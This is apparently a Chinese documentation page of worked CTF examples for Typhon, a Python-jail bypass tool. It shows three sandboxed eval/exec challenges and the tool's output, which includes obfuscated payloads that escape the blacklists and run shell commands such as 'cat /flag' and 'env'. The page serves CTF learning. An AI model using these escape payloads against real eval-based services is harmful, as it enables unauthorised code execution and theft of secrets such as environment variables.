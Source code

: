 EXAMPLE 示例
============

此页用于提供关于 ``Typhon`` 的一些实战例题。

PwnyCTF 2025-Pyjail 2
-------------------

题目链接： https://ctf.sigpwny.com/challenges#Vault/Pyjail%202-633

.. code-block:: python
    :linenos:
    :emphasize-lines: 3,26

    #!/usr/bin/env python3

    #Flag is at /flag.txt

    def is_bad(user_input):
        banned = '"*\'`x'

        for c in banned:
            if c in user_input:
                return True
        
        return False


    def main():

        print("You wake up in the jail gym. Your head is still sore from the bonk.")

        user_input = input('What do you have to say for yourself? ')

        if is_bad(user_input):
            print('Sorry, not good enough. Go back to jail.')
            return
        
        try:
            exec(user_input)
            print("Ok, we'll consider it.")
        except:
            print('Sorry, not good enough. Go back to jail.')


    if __name__ == '__main__':
        main()

flag位于 ``/flag.txt`` 文件中。

注意到第25行存在执行函数： ``exec(user_input)``。同时，此题目的WAF有且仅有 ``is_bad()`` 函数，其功能为检测用户输入是否包含 ``"``、 ``'``、 ``*``、  `````、 ``x``。

此处我们将执行行删去，换为对应的命令。

我们将 ``main()`` 函数改为：

.. code-block:: python
    :linenos:
    :emphasize-lines: 12,13

    def main():

        print("You wake up in the jail gym. Your head is still sore from the bonk.")

        user_input = input('What do you have to say for yourself? ')

        if is_bad(user_input):
            print('Sorry, not good enough. Go back to jail.')
            return
        
        try:
            import Typhon
            Typhon.bypassRCE('cat /flag.txt', banned_chr = '"*\'`x')
            print("Ok, we'll consider it.")
        except:
            print('Sorry, not good enough. Go back to jail.')

运行，随意输入使得控制流进入 :func:`bypassRCE`` 函数，即可得到flag（在 ``input()`` 时直接回车即可）。

.. code-block::
    :emphasize-lines: 34

    You wake up in the jail gym. Your head is still sore from the bonk.
    What do you have to say for yourself?

        .-')          _                 Typhon: a pyjail bypassing tool
       (`_^ (    .----`/
        ` )  \_/`   __/     __,    [Typhon Version]: v1.0.10
        __{   |`  __/      /_/     [Python Version]: v3.13.4
       / _{    \__/ '--.  //       [Github]: https://github.com/Team-intN18-SoybeanSeclab/Typhon
       \_> \_\  >__/    \((        [Author]: LamentXU <lamentxu644@gmail.com>
            _/ /` _\_   |))

    WARNING [!] banned_chr should be a list, converting to list for compatibility.
    WARNING [!] local scope not specified, using the global scope.
    INFO [*] 7 paths found to directly getshell. Try to bypass blacklist with them. Please be paitent.
    Bypassing (7/7): [===============================================================================>] 100.0%
    INFO [+] directly getshell success. 49 payload(s) in total.
    INFO [+] You now can use this payload to getshell directly with proper input.




    -----------Progress-----------


    directly input bypass(49 payloads found): help()


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    help()


    +++++++++++Jail broken+++++++++++

此时，我们再远程环境中输入 ``help()`` 再利用 `相应的技术 <https://typhonbreaker.readthedocs.io/zh-cn/latest/FAQ.html#help-rce>`_ 进行绕过即可 。

HNCTF 2022-calc_jail_beginner_level1
----------------------------------------------------------------

.. code-block:: python
    :linenos:
    :emphasize-lines: 6,29

    #the function of filter will banned some string ',",i,b
    #it seems banned some payload 
    #Can u escape it?Good luck!

    def filter(s):
        not_allowed = set('"\'`ib')
        return any(c in not_allowed for c in s)

    WELCOME = '''
    _                _                           _       _ _   _                _ __ 
    | |              (_)                         (_)     (_) | | |              | /_ |
    | |__   ___  __ _ _ _ __  _ __   ___ _ __     _  __ _ _| | | | _____   _____| || |
    | '_ \ / _ \/ _` | | '_ \| '_ \ / _ \ '__|   | |/ _` | | | | |/ _ \ \ / / _ \ || |
    | |_) |  __/ (_| | | | | | | | |  __/ |      | | (_| | | | | |  __/\ V /  __/ || |
    |_.__/ \___|\__, |_|_| |_|_| |_|\___|_|      | |\__,_|_|_| |_|\___| \_/ \___|_||_|
                __/ |                          _/ |                                  
                |___/                          |__/                                                                                      
    '''

    print(WELCOME)

    print("Welcome to the python jail")
    print("Let's have an beginner jail of calc")
    print("Enter your expression and I will evaluate it for you.")
    input_data = input("> ")
    if filter(input_data):
        print("Oh hacker!")
        exit(0)
    print('Answer: {}'.format(eval(input_data)))

同上题，我们将 ``eval`` 所包含的行改为对应的绕过函数。将黑名单 ``"'`ib`` 作为 :attr:`~bypassRCE.banned_chr` 参数传入即可。（我们假设flag在 ``/flag`` ）

此题中，为了追求更好的演示效果，我们假设这个程序不支持后续的输入（否则 ``help`` 直接可以解出，可以查看 `此题 <https://typhonbreaker.readthedocs.io/zh-cn/latest/EXAMPLE.html#pwnyctf-pyjail-2>`_ 的说明）。此处我们将 :attr:`~bypassRCE.interactive` 设置为 ``False``

.. code-block:: python
    :linenos:
    :emphasize-lines: 29,30

    #the function of filter will banned some string ',",i,b
    #it seems banned some payload 
    #Can u escape it?Good luck!

    def filter(s):
        not_allowed = set('"\'`ib')
        return any(c in not_allowed for c in s)

    WELCOME = '''
    _                _                           _       _ _   _                _ __ 
    | |              (_)                         (_)     (_) | | |              | /_ |
    | |__   ___  __ _ _ _ __  _ __   ___ _ __     _  __ _ _| | | | _____   _____| || |
    | '_ \ / _ \/ _` | | '_ \| '_ \ / _ \ '__|   | |/ _` | | | | |/ _ \ \ / / _ \ || |
    | |_) |  __/ (_| | | | | | | | |  __/ |      | | (_| | | | | |  __/\ V /  __/ || |
    |_.__/ \___|\__, |_|_| |_|_| |_|\___|_|      | |\__,_|_|_| |_|\___| \_/ \___|_||_|
                __/ |                          _/ |                                  
                |___/                          |__/                                                                                      
    '''

    print(WELCOME)

    print("Welcome to the python jail")
    print("Let's have an beginner jail of calc")
    print("Enter your expression and I will evaluate it for you.")
    input_data = input("> ")
    if filter(input_data):
        print("Oh hacker!")
        exit(0)
    import Typhon
    Typhon.bypassRCE('cat /flag', banned_chr = '"\'`ib', interactive = False)

运行，是程序进行到 :func:`bypassRCE` 函数即可：

.. code-block::
    :emphasize-lines: 41

    -----------Progress-----------


    directly input bypass(0 payload found): None
    generator(0 payload found): None
    type(1 payload found): type
    object(2 payloads found): str().__class__.__mro__[1]
    bytes(3 payloads found): type(str().encode())
    builtins set(10 payloads found): vars()[chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)]
    builtins module(24 payloads found): all.__self__
    builtins(1 payload found): __builtins__
    import(6 payloads found): getattr(all.__self__,chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95))
    load_module(7 payloads found): all.__self__.__loader__.load_module
    modules(1 payload found): all.__self__.__loader__.load_module(chr(115)+chr(121)+chr(115)).modules
    os(16 payloads found): all.__self__.__loader__.load_module(chr(111)+chr(115))
    subprocess(16 payloads found): all.__self__.__loader__.load_module(chr(115)+chr(117)+chr(98)+chr(112)+chr(114)+chr(111)+chr(99)+chr(101)+chr(115)+chr(115))
    uuid(16 payloads found): all.__self__.__loader__.load_module(chr(117)+chr(117)+chr(105)+chr(100))
    pydoc(16 payloads found): all.__self__.__loader__.load_module(chr(112)+chr(121)+chr(100)+chr(111)+chr(99))
    multiprocessing(16 payloads found): all.__self__.__loader__.load_module(chr(109)+chr(117)+chr(108)+chr(116)+chr(105)+chr(112)+chr(114)+chr(111)+chr(99)+chr(101)+chr(115)+chr(115)+chr(105)+chr(110)+chr(103))
    codecs(16 payloads found): all.__self__.__loader__.load_module(chr(99)+chr(111)+chr(100)+chr(101)+chr(99)+chr(115))
    warnings(16 payloads found): all.__self__.__loader__.load_module(chr(119)+chr(97)+chr(114)+chr(110)+chr(105)+chr(110)+chr(103)+chr(115))
    base64(16 payloads found): all.__self__.__loader__.load_module(chr(98)+chr(97)+chr(115)+chr(101)+chr(54)+chr(52))
    importlib(16 payloads found): all.__self__.__loader__.load_module(chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(108)+chr(105)+chr(98))
    weakref(16 payloads found): all.__self__.__loader__.load_module(chr(119)+chr(101)+chr(97)+chr(107)+chr(114)+chr(101)+chr(102))
    reprlib(16 payloads found): all.__self__.__loader__.load_module(chr(114)+chr(101)+chr(112)+chr(114)+chr(108)+chr(105)+chr(98))
    sys(17 payloads found): all.__self__.__loader__.load_module(chr(115)+chr(121)+chr(115))
    linecache(16 payloads found): all.__self__.__loader__.load_module(chr(108)+chr(105)+chr(110)+chr(101)+chr(99)+chr(97)+chr(99)+chr(104)+chr(101))
    io(16 payloads found): all.__self__.__loader__.load_module(chr(105)+chr(111))
    ctypes(16 payloads found): all.__self__.__loader__.load_module(chr(99)+chr(116)+chr(121)+chr(112)+chr(101)+chr(115))
    profile(16 payloads found): all.__self__.__loader__.load_module(chr(112)+chr(114)+chr(111)+chr(102)+chr(105)+chr(108)+chr(101))
    timeit(16 payloads found): all.__self__.__loader__.load_module(chr(116)+chr(105)+chr(109)+chr(101)+chr(105)+chr(116))
    __import__2RCE(95 payloads found): all.__self__.__loader__.load_module(chr(111)+chr(115)).system(chr(99)+chr(97)+chr(116)+chr(32)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103))


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    all.__self__.__loader__.load_module(chr(111)+chr(115)).system(chr(99)+chr(97)+chr(116)+chr(32)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103))


    +++++++++++Jail broken+++++++++++


Typhon-Sample Pyjail 1 
----------------------

本题目由此文档编写。

.. code-block:: python
    :linenos:
    :emphasize-lines: 1,24,37

        # flag in env
        WELCOME = '''
        _     ______      _                              _       _ _ 
        | |   |  ____|    (_)                            | |     (_) |
        | |__ | |__   __ _ _ _ __  _ __   ___ _ __       | | __ _ _| |
        | '_ \|  __| / _` | | '_ \| '_ \ / _ \ '__|  _   | |/ _` | | |·
        | |_) | |___| (_| | | | | | | | |  __/ |    | |__| | (_| | | |
        |_.__/|______\__, |_|_| |_|_| |_|\___|_|     \____/ \__,_|_|_|
                    __/ |                                           
                    |___/                                            
        '''
        import string

        print(WELCOME)

        print("Welcome to the python jail")
        print("Let's have an beginner jail of calc")
        print("Enter your expression and I will evaluate it for you.")
        if __name__ == '__main__':
            while True:
                try:
                    suc = True
                    cmd = input("Enter command: ")
                    blacklist = ['__loader__','__import__','os','\\x','+','join', '"', "'",'2','3','4','5','6','7','8','9','subprocess','[',']','sys',
                                        'pty','uuid','future','codecs','io','multi']
                    for i in blacklist:
                        if i in cmd:
                            print("Command not allowed")
                            suc = False
                            break
                    for i in cmd:
                        if i not in string.printable:
                            print("Command not allowed")
                            suc = False
                            break
                    if suc:
                        print(eval(cmd, {'__builtins__':None, 'st':str}))
                except KeyboardInterrupt:
                    break
                except Exception as e:
                    print(f'e ==> {e}')
                    pass

可以看到该题目有如下限制：

- 禁止使用 ``__loader__``、 ``__import__``、 ``os``、 ``\\x``、 ``+``、 ``join``、 ``"``、 ``'``、 ``2``、 ``3``、 ``4``、 ``5``、 ``6``、 ``7``、 ``8``、 ``9``、 ``subprocess``、 ``[``、 ``]``、 ``sys``、 ``pty``、 ``uuid``、 ``future``、 ``codecs``、 ``io``、 ``multi`` 等关键字。

- 禁止使用除 ``printable`` 字符集以外的字符。

- 命名空间为 ``{'__builtins__':None, 'st':str}`` 函数。

我们可以利用 ``Typhon`` 库中的 :func:`bypassRCE` 函数绕过限制。由于flag在环境中，我们执行 ``env`` 即可得到flag。

.. code-block:: python
    :linenos:

        import Typhon
        Typhon.bypassRCE(
            'env',
            local_scope = {'__builtins__':None, 'st':str},
            banned_chr = ['__loader__','__import__','os','\\x','+','join', '"', "'",'2','3','4','5','6','7','8','9','subprocess','[',']','sys',
                                        'pty','uuid','future','codecs','io','multi']
            )

.. tip::

    此处由于已经指定了命名空间，我们可以不在源代码上做修改，直接另起一个脚本调用 :func:`bypassRCE` 函数。但当题目没有指定命名空间时（即没有 ``local_scope`` 参数时），我们需要在源代码中调用 ``Typhon.bypassRCE()`` 函数。
    假如你不确定的话，也可以只在源代码中调用。

执行上述代码，即可得到payload。

.. note:: 

    对于复杂度较高的题目，可能需要等候较长时间。

.. code-block::
    :emphasize-lines: 35

    -----------Progress-----------


    directly input bypass(0 payload found): None
    generator(3 payloads found): (a for a in ()).gi_frame
    type(2 payloads found): st.__class__
    object(5 payloads found): ().__class__.__mro__.__getitem__(1)
    bytes(2 payloads found): st.__class__(st().encode())
    import(0 payload found): None
    load_module(0 payload found): None
    modules(1 payload found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules
    builtins(3 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0b101).__add__(st.__doc__.__getitem__(0b100100)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(1)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0)))
    sys(3 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0)))
    os(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0)))
    codecs(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b1000).__add__(st.__doc__.__getitem__(0b100)).__add__(st.__doc__.__getitem__(0b110000)).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0)))
    warnings(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b1010100).__add__(st.__doc__.__getitem__(0b1001100)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b110011)).__add__(st.__doc__.__getitem__(0)))
    importlib(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b110001).__add__(st.__doc__.__getitem__(0b1100111)).__add__(st.__doc__.__getitem__(0b10010101)).__add__(st.__doc__.__getitem__(0b100)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(1)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101)))
    reprlib(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b10).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b10010101)).__add__(st.__doc__.__getitem__(0b10)).__add__(st.__doc__.__getitem__(0b11010000)).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101)))
    linecache(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b11010000).__add__(st.__doc__.__getitem__(0b110001)).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(0b111)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0b1001100)).__add__(st.__doc__.__getitem__(0b1000)).__add__(st.__doc__.__getitem__(0b1101010)).__add__(st.__doc__.__getitem__(0b111)))
    io(2 payloads found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b110001).__add__(st.__doc__.__getitem__(0b100)))
    exec(0 payload found): None
    __import__2RCE(1 payload found): ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0))).popen(st.__doc__.__getitem__(0b111).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(111))).read()


    -----------Progress-----------


    +++++++++++Jail broken+++++++++++


    ().__class__.__mro__.__getitem__(1).__subclasses__().__getitem__(110).__init__.__globals__.__getitem__(st.__doc__.__getitem__(0).__add__(st.__doc__.__getitem__(0b11011)).__add__(st.__doc__.__getitem__(0))).modules.get(st.__doc__.__getitem__(0b100).__add__(st.__doc__.__getitem__(0))).popen(st.__doc__.__getitem__(0b111).__add__(st.__doc__.__getitem__(0b101101)).__add__(st.__doc__.__getitem__(111))).read()
    Reminder: index 0 of st.__doc__[0] must match the string literal s.
    Reminder: index 4 of st.__doc__[4] must match the string literal o.
    Reminder: index 7 of st.__doc__[7] must match the string literal e.
    Reminder: index 27 of st.__doc__[27] must match the string literal y.
    Reminder: index 45 of st.__doc__[45] must match the string literal n.
    Reminder: index 111 of st.__doc__[111] must match the string literal v.
    Reminder: 110 is the index of StreamReaderWriter, path to sys must fit in index of StreamReaderWriter


    +++++++++++Jail broken+++++++++++

根据 ``reminder`` 信息稍微调整payload即可得到flag。
